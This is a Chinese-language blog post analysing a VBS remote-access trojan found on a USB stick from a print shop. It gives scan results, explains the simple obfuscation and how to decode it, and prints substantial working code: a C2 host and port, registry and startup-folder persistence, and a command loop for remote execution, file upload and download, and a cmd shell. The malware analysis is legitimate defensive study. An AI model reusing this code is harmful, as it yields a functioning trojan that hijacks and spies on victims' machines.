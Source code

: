 ```yaml
---
title: 打印店病毒分析 - VBS
category: Sec
---
```


## 打印店病毒分析 - VBS

样本仅供学习研究使用：

- [解密前]({{ site.url }}/resources/printer-virus/virus-0/vbs-virus-en.vbs.en.b64)
- [解密后]({{ site.url }}/resources/printer-virus/virus-0/vbs-virus-de.vbs.en.b64)

---

### 基本信息

这个恶意代码也是某次从打印店回来后在U盘里获得的。脚本语言写恶意程序，关键要骗过会查看源代码的用户。为此，作者进行了简单的加密处理。

VirSCAN.org在线测试：

解密前：

Scanner results:33%Scanner(s) (13/39)found malware  
File Name : vbs-virus-en.vbs.en.b64.vbs (File not down)  
File Size :209255 byte  
File Type :text/plain  
MD5:124bb52a16d3fceb3b66c00897b14f95  
SHA1:d83c5dae4ebc46383e686df8981259a654513c51  
[Online report](http://r.virscan.org/report/7143a9ae27122bc3eb13a70704b4a6fc)

解密后：

Scanner results:51%Scanner(s) (20/39)found malware!  
File Name : vbs-virus-de.vbs.en.b64.de.vbs (File not down)  
File Size :15064 byte  
File Type :text/plain  
MD5:459af2ecc630989d2e36228a3720aca4  
SHA1:d78cbaf3b3de8e57d6e8f2a25ed016894135f9d4  
[Online report](http://r.virscan.org/report/c5b17ed5482846db85fb9b50d1e8b8e7)

解密后的查出率高了不少。

### 代码分析

加密方法很简单。预先把代码分解成一个一个字符，运行时先拼凑出代码字符串，然后调用`executeglobal()`执行。解密思路很简单，把执行语句改成输出语句就行，重定向到文件里。

下面分析解密后的代码。

第一行，作者说自己是重写别人的代码，还留下了他的skype号......  
整体来看，作者编码习惯还是不错的。注释很到位。

首先是用于配置的一些变量：

{% highlight vb %}
host = "spamer01.no-ip.org"
port = 3344
installdir = "%temp%"
lnkfile = true
lnkfolder = true
{% endhighlight %}

看样子是个木马。

设置了一些变量，这些分别是创建出来的WshShell对象，文件系统对象，xmlhttp对象：

{% highlight vb %}
dim shellobj
set shellobj = wscript.createobject("wscript.shell")
dim filesystemobj
set filesystemobj = createobject("scripting.filesystemobject")
dim httpobj
set httpobj = createobject("msxml2.xmlhttp")
{% endhighlight %}

又设置了一些变量，其中：

`installname`存储它自己的名字；  
`startup`存储开机启动文件夹的路径；  
`installdir`内容变为存储之前`installdir`对应的环境变量的真实路径（上面作者预设的是`%temp%`）；  
接着检查上步得到的`installdir`路径是否存在，不存在则采用默认的`%temp%`（属于二次确认）；  
`spliter`内容是`<|>`估计是用来解析数据；  
`sleep`定义了睡眠时间是5000毫秒。  
还有一些其他变量，但没有具体初始化，到后面用到再说。

{% highlight vb %}
installname = wscript.scriptname
startup = shellobj.specialfolders ("startup") & "\"
installdir = shellobj.expandenvironmentstrings(installdir) & "\"
if not filesystemobj.folderexists(installdir) then  installdir = shellobj.expandenvironmentstrings("%temp%") & "\"
spliter = "<" & "|" & ">"
sleep = 5000
dim response
dim cmd
dim param
info = ""
usbspreading = ""
startdate = ""
dim oneonce
{% endhighlight %}

万事俱备，开始搞事情了。

首先是一句`on error resume next`，即当前语句执行出错时不要终止，而是执行下一条语句，在VBS里这条语句使用频率非常高。

接着调用`instance`函数,其功能是：



{% highlight vb %}
function instance

on error resume next
usbspreading = shellobj.regread ("HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0) & "\")

if usbspreading = "" then
   if lcase ( mid(wscript.scriptfullname,2)) = ":\" &  lcase(installname) then
      usbspreading = "true - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   else
      usbspreading = "false - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   end if
end If

upstart

set scriptfullnameshort =  filesystemobj.getfile (wscript.scriptfullname)
set installfullnameshort =  filesystemobj.getfile (installdir & installname)
if lcase (scriptfullnameshort.shortpath) <> lcase (installfullnameshort.shortpath) then
    shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & Chr(34)
    wscript.quit
end If

err.clear
set oneonce = filesystemobj.opentextfile (installdir & installname ,8, false)
if  err.number > 0 then wscript.quit

end function
{% endhighlight %}

{% highlight vb %}
sub upstart ()

on error resume Next

shellobj.regwrite "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B " & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"

shellobj.regwrite "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B "  & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"

filesystemobj.copyfile wscript.scriptfullname,installdir & installname,true
filesystemobj.copyfile wscript.scriptfullname,startup & installname ,true

end sub
{% endhighlight %}

`instance`执行后，程序进入永真循环，逻辑很清晰。

{% highlight vb %}
while true
    install
    response = ""
    response = post ("is-ready","")
    cmd = split (response,spliter)
    select case cmd (0)
    case "excecute"
          param = cmd (1)
          execute param
    case "update"
          param = cmd (1)
          oneonce.close
          set oneonce =  filesystemobj.opentextfile (installdir & installname ,2, false)
          oneonce.write param
          oneonce.close
          shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & chr(34)
          wscript.quit
    case "uninstall"
          uninstall
    case "send"
          download cmd (1),cmd (2)
    case "site-send"
          sitedownloader cmd (1),cmd (2)
    case "recv"
          param = cmd (1)
          upload (param)
    case  "enum-driver"
          post "is-enum-driver",enumdriver
    case  "enum-faf"
          param = cmd (1)
          post "is-enum-faf",enumfaf (param)
    case  "enum-process"
          post "is-enum-process",enumprocess
    case  "cmd-shell"
          param = cmd (1)
          post "is-cmd-shell",cmdshell (param)
    case  "delete"
          param = cmd (1)
          deletefaf (param)
    case  "exit-process"
          param = cmd (1)
          exitprocess (param)
    case  "sleep"
          param = cmd (1)
          sleep = eval (param)
    end select
	wscript.sleep sleep
wend
{% endhighlight %}

### 总结

作为一个远控，隐藏自己和完成命令同样重要。
